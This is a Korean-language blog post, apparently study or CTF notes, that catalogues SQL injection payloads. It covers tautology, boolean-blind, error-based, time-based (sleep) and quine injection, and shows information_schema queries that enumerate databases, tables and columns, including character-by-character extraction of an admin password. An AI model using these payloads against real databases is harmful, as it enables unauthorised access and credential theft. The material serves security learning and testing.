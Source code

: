 ```yaml
---
title : "SQL injection 공격 기법"
excerpt : "SQL injection attacks"
toc : true
toc_sticky : true
categories :
  - Web
tags :
  - SQL injection
---
```


## 공격기법 종류
### sql injection
```
select id from table where id='' or 1 #'

select id from table where id='' or id='admin' #'

select id from table where id='' or 1 --%20' 
```

### blind sql injection
```
select id from table where id='' or id='admin' and ascii(substr(pw,1,1))>1 #'

select id from table where id='' or id='admin' and ord(substr(pw,1,1))>1 #'

select id from table where id='' or id='admin' and ascii(substring(pw,1,1))>1 #'

select id from table where id='' or id='admin' and ascii(mid(pw,1,1))>1 #'
```

### error based blind sql injection 
```
-> double형 최대 값 넘은 값(0xffffffff*0xffffffffffff)
-> subquery 리턴 개수 1임을 이용한 에러 이용

select id from table where id='' or id='admin' and if(ascii(substr(pw,1,1))>1,1,0xfffffff*0xffffffffff)#'

select id from table where id='' or id='admin' and if(ascii(substr(pw,1,1))>1,1,(select 1 union select 2)) #'

select id from table where id='' or id='admin' and if(ascii(substr(pw,1,1))>1,1,(select 1 from table)) #'
```
```select 1 from table``` 하면 3개의 값이 리턴됨.
![](/assets/images/subquery_test.png){: .align-center}

### time based blind sql injection
```
select id from table where id='' or id='admin' and ascii(substr(pw,1,1))=48 and sleep(5) #'
```

### quine sql injection
```php
# 싱글쿼트가 필요한 경우
select replace(replace('[prefix] select replace(replace("$",char(34),char(39)),char(36),"$") [postfix]',char(34),char(39)),char(36),'[prefix] select replace(replace("$",char(34),char(39)),char(36),"$") [postfix]') [postfix];

# 더블쿼트가 필요한 경우
select replace(replace("[prefix] select replace(replace('$',char(39),char(34)),char(36),'$') [postfix]",char(39),char(34)),char(36),"[prefix] select replace(replace('$',char(39),char(34)),char(36),'$') [postfix]") [postfix];
```
자세한 건 <a href="https://blog.p6.is/quine-sql-injection/" target="_blank">https://blog.p6.is/quine-sql-injection/</a>  
정리하면 다음과 같음.
```php
$a = [추가해도 됨] select replace(replace("$", char(34), char(39)), char(36), "$") as quine [추가해도 됨]

# -> 단, 더블쿼터가 싱글쿼터로 바뀐다는 점 유의해서 추가

[추가해도 됨] select replace(replace('$a', char(34), char(39)), char(36), '$a') as quine [추가해도 됨]
```

### information_schema를 공격하는 sql injection
```
select user() 또는 select system_user()
-> mysql에 접속한 유저 목록 출력
```
```
select schema_name from information_schema.schemata
-> 해당 mysql 서버에 존재하는 db 목록 출력
```
```
select table_name, column_name from information_schema.columns where table_schema = 'test'
-> test db에 존재하는 테이블, 컬럼 목록 출력

또는 현재 db에 있는 것들을 보고 싶다면
select table_name, column_name from information_schema.columns where table_schema =  database()
```
```

```
